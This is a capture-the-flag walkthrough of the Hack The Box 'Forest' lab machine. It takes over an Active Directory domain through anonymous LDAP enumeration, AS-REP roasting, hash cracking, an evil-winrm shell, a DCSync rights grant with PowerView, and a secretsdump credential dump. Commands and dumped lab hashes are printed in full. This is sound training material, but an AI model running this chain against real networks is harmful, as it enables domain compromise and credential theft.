

# Forest - Easy

Target IP: **10.129.95.210**

## User Flag

Initial scan: ```sudo nmap -p- 10.129.95.210 -v```

Output shows a lot of ports open.

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49670/tcp open  unknown
49680/tcp open  unknown
49681/tcp open  unknown
49685/tcp open  unknown
49697/tcp open  unknown
49861/tcp open  unknown
```

We can't enumerate SMB without credentials. Guest access doesn't work either.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ smbmap -H 10.129.95.210

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[!] Access denied on 10.129.95.210, no fun for you...
[*] Closed 1 connections                                                                                                     
```

Let's see if enumerating LDAP is possible. Ldapsearch works with anonymous access. The base domain naming context is ```DC=htb,DC=local```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ ldapsearch -H ldap://10.129.95.210:389 -x -b '' -s base
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:
currentTime: 20261110004052.0Z
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=htb,DC=local
dsServiceName: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Nam
 e,CN=Sites,CN=Configuration,DC=htb,DC=local
namingContexts: DC=htb,DC=local
namingContexts: CN=Configuration,DC=htb,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=htb,DC=local
namingContexts: DC=DomainDnsZones,DC=htb,DC=local
namingContexts: DC=ForestDnsZones,DC=htb,DC=local
defaultNamingContext: DC=htb,DC=local
schemaNamingContext: CN=Schema,CN=Configuration,DC=htb,DC=local
configurationNamingContext: CN=Configuration,DC=htb,DC=local
rootDomainNamingContext: DC=htb,DC=local
```

Knowing this, we can search further. Let's first query for all domain users.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ ldapsearch -H ldap://10.129.95.210:389 -x -b "DC=htb,DC=local" "(objectClass=user)" sAMAccountName
# extended LDIF
#
# LDAPv3
# base <DC=htb,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: sAMAccountName 
#

# Guest, Users, htb.local
dn: CN=Guest,CN=Users,DC=htb,DC=local
sAMAccountName: Guest

# DefaultAccount, Users, htb.local
dn: CN=DefaultAccount,CN=Users,DC=htb,DC=local
sAMAccountName: DefaultAccount

# FOREST, Domain Controllers, htb.local
dn: CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
sAMAccountName: FOREST$

# EXCH01, Computers, htb.local
dn: CN=EXCH01,CN=Computers,DC=htb,DC=local
sAMAccountName: EXCH01$

# Exchange Online-ApplicationAccount, Users, htb.local
dn: CN=Exchange Online-ApplicationAccount,CN=Users,DC=htb,DC=local
sAMAccountName: $331000-VK4ADACQNUCA

# SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}, Users, htb.local
dn: CN=SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1},CN=Users,DC=htb,DC=
 local
sAMAccountName: SM_2c8eef0a09b545acb

# SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}, Users, htb.local
dn: CN=SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c},CN=Users,DC=htb,DC=
 local
sAMAccountName: SM_ca8c2ed5bdab4dc9b

# SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}, Users, htb.local
dn: CN=SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9},CN=Users,DC=htb,DC=
 local
sAMAccountName: SM_75a538d3025e4db9a

# DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}, Users, htb.loc
 al
dn: CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852},CN=Users,
 DC=htb,DC=local
sAMAccountName: SM_681f53d4942840e18

# Migration.8f3e7716-2011-43e4-96b1-aba62d229136, Users, htb.local
dn: CN=Migration.8f3e7716-2011-43e4-96b1-aba62d229136,CN=Users,DC=htb,DC=local
sAMAccountName: SM_1b41c9286325456bb

# FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042, Users, htb.local
dn: CN=FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042,CN=Users,DC=htb,DC=
 local
sAMAccountName: SM_9b69f1b9d2cc45549

# SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}, Users, htb.local
dn: CN=SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201},CN=Users,DC=htb,DC=
 local
sAMAccountName: SM_7c96b981967141ebb

# SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}, Users, htb.local
dn: CN=SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA},CN=Users,DC=htb,DC=
 local
sAMAccountName: SM_c75ee099d0a64c91b

# SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}, Users, htb.local
dn: CN=SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9},CN=Users,DC=htb,DC=
 local
sAMAccountName: SM_1ffab36a2f5f479cb

# HealthMailboxc3d7722415ad41a5b19e3e00e165edbe, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailboxc3d7722415ad41a5b19e3e00e165edbe,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailboxc3d7722

# HealthMailboxfc9daad117b84fe08b081886bd8a5a50, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailboxfc9daad117b84fe08b081886bd8a5a50,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailboxfc9daad

# HealthMailboxc0a90c97d4994429b15003d6a518f3f5, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailboxc0a90c97d4994429b15003d6a518f3f5,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailboxc0a90c9

# HealthMailbox670628ec4dd64321acfdf6e67db3a2d8, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailbox670628ec4dd64321acfdf6e67db3a2d8,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailbox670628e

# HealthMailbox968e74dd3edb414cb4018376e7dd95ba, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailbox968e74dd3edb414cb4018376e7dd95ba,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailbox968e74d

# HealthMailbox6ded67848a234577a1756e072081d01f, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailbox6ded67848a234577a1756e072081d01f,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailbox6ded678

# HealthMailbox83d6781be36b4bbf8893b03c2ee379ab, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailbox83d6781be36b4bbf8893b03c2ee379ab,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailbox83d6781

# HealthMailboxfd87238e536e49e08738480d300e3772, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailboxfd87238e536e49e08738480d300e3772,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailboxfd87238

# HealthMailboxb01ac647a64648d2a5fa21df27058a24, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailboxb01ac647a64648d2a5fa21df27058a24,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailboxb01ac64

# HealthMailbox7108a4e350f84b32a7a90d8e718f78cf, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailbox7108a4e350f84b32a7a90d8e718f78cf,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailbox7108a4e

# HealthMailbox0659cc188f4c4f9f978f6c2142c4181e, Monitoring Mailboxes, Microsof
 t Exchange System Objects, htb.local
dn: CN=HealthMailbox0659cc188f4c4f9f978f6c2142c4181e,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=htb,DC=local
sAMAccountName: HealthMailbox0659cc1

# Sebastien Caron, Exchange Administrators, Information Technology, Employees, 
 htb.local
dn: CN=Sebastien Caron,OU=Exchange Administrators,OU=Information Technology,OU
 =Employees,DC=htb,DC=local
sAMAccountName: sebastien

# Lucinda Berger, IT Management, Information Technology, Employees, htb.local
dn: CN=Lucinda Berger,OU=IT Management,OU=Information Technology,OU=Employees,
 DC=htb,DC=local
sAMAccountName: lucinda

# Andy Hislip, Helpdesk, Information Technology, Employees, htb.local
dn: CN=Andy Hislip,OU=Helpdesk,OU=Information Technology,OU=Employees,DC=htb,D
 C=local
sAMAccountName: andy

# Mark Brandt, Sysadmins, Information Technology, Employees, htb.local
dn: CN=Mark Brandt,OU=Sysadmins,OU=Information Technology,OU=Employees,DC=htb,
 DC=local
sAMAccountName: mark

# Santi Rodriguez, Developers, Information Technology, Employees, htb.local
dn: CN=Santi Rodriguez,OU=Developers,OU=Information Technology,OU=Employees,DC
 =htb,DC=local
sAMAccountName: santi

# search reference
ref: ldap://ForestDnsZones.htb.local/DC=ForestDnsZones,DC=htb,DC=local

# search reference
ref: ldap://DomainDnsZones.htb.local/DC=DomainDnsZones,DC=htb,DC=local

# search reference
ref: ldap://htb.local/CN=Configuration,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 34
# numEntries: 30
# numReferences: 3
```

We can take a few approaches here. Kerberoasting requires credentials for some low-privilege service account, which we don't have currently. However, we can go with enumerating user accounts that don't have pre-authentication enabled for an AS-REP roasting attack, which doesn't need credentials.

Running Impacket's ```GetNPUsers``` gets us a hash of ```svc-alfresco```, which had pre-authentication disabled.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ impacket-GetNPUsers -dc-ip 10.129.95.210 -request 'htb.local/'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2026-11-09 19:59:12.205591  2019-09-23 07:09:47.931194  0x410200 


/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2807d151d8bfd193dd2d6e4aecbd54f3$6acd5c7a10c2eefdc2f5f6c19d421ad8d6e3c9ba3c771bba94322d21488658c3ba106148cdf1266fb2eb2a3dc0c3ca623f5420f68497cebb62fd6a3a21b50dec2a726ff2e2846987b2a338b9b18db919f1bd20f59eb72d57b99d28312264947c2c9c3e39ef6862ee5d33ef5fd2aba91fdcf4cd32c243e6ecad4657141618bfd2077d66303d06d04466a57e1dda29ee1d28997dd5fa2d12f5e6de6fbd73a9a5ec0fa339131914f99357c70d6635e15d93c41c32083cde381363e6bc7edd54af19519c309b19f805adb80ce6a6121b520d75f7bf56cd670081a7644367ad1c13167d0ff019eba9
```

We can now proceed to crack this using hashcat.

```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2807d151d8bfd193dd2d6e4aecbd54f3$6acd5c7a10c2eefdc2f5f6c19d421ad8d6e3c9ba3c771bba94322d21488658c3ba106148cdf1266fb2eb2a3dc0c3ca623f5420f68497cebb62fd6a3a21b50dec2a726ff2e2846987b2a338b9b18db919f1bd20f59eb72d57b99d28312264947c2c9c3e39ef6862ee5d33ef5fd2aba91fdcf4cd32c243e6ecad4657141618bfd2077d66303d06d04466a57e1dda29ee1d28997dd5fa2d12f5e6de6fbd73a9a5ec0fa339131914f99357c70d6635e15d93c41c32083cde381363e6bc7edd54af19519c309b19f805adb80ce6a6121b520d75f7bf56cd670081a7644367ad1c13167d0ff019eba9:s3rvice
```

We can use this password to get a shell on ```evil-winrm```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

We can proceed to get the user flag from here.

## Root Flag

The service account has interesting privileges and group memberships.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149 Mandatory group, Enabled by default, Enabled group
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

Since this is a lot of information, let's use BloodHound. We can use ```bloodhound-python```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ sudo bloodhound-python -u 'svc-alfresco' -p 's3rvice' -ns 10.129.95.210 -d htb.local -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Testing resolved hostname connectivity dead:beef::b093:caea:5961:c5ae
INFO: Trying LDAP connection to dead:beef::b093:caea:5961:c5ae
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Testing resolved hostname connectivity dead:beef::b093:caea:5961:c5ae
INFO: Trying LDAP connection to dead:beef::b093:caea:5961:c5ae
INFO: Found 33 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 06S
```

Looking at the analysis of the data in the BloodHound GUI, we can find a path for privilege escalation.

We know that the user account we are controlling is in the ```Account Operators``` group. This group has ```GenericAll``` permissions on the ```Exchange Windows Permissions``` group, which means that we have full control over it. In turn, the ```Exchange Windows Permissions``` group has ```WriteDacl``` permissions in the domain, which means that we can edit the DACL of any object. We can grant ourselves DCSync permissions with this.



First, using the ```GenericAll``` permissions, we can add ourselves to ```Exchange Windows Permissions```.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```

Now, we should be able to grant ourselves DCSync permissions.

Let's first get PowerView over to the remote machine.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload PowerView.ps1 C:\Users\svc-alfresco\Documents\PowerView.ps1
                                        
Info: Uploading /home/htb-mp-3199654/PowerView.ps1 to C:\Users\svc-alfresco\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

After importing the module, we can give ourselves DCSync privileges.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "svc-alfresco" -Rights DCSync
```

I unexpectedly had some trouble here because the DCSync rights were not being given to the account. I figured out that this was because PowerShell was still running in the context of our privilege before we gave ourselves WriteDacl rights, and we had to supply a PSCredential object to authenticate again to verify our new privilege.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 's3rvice' -asplain -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\svc-alfresco', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" "svc-alfresco" /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity svc-alfresco -Credential $cred -Rights DCSync
```

Running the PowerView command with the ```-Credential``` flag, we are able to use ```secretsdump.py``` to extract all the hashes.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ secretsdump.py htb/svc-alfresco:s3rvice@10.129.95.210
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
44y:10102:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:c8fb83933e904b845f740a45612ae30e:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
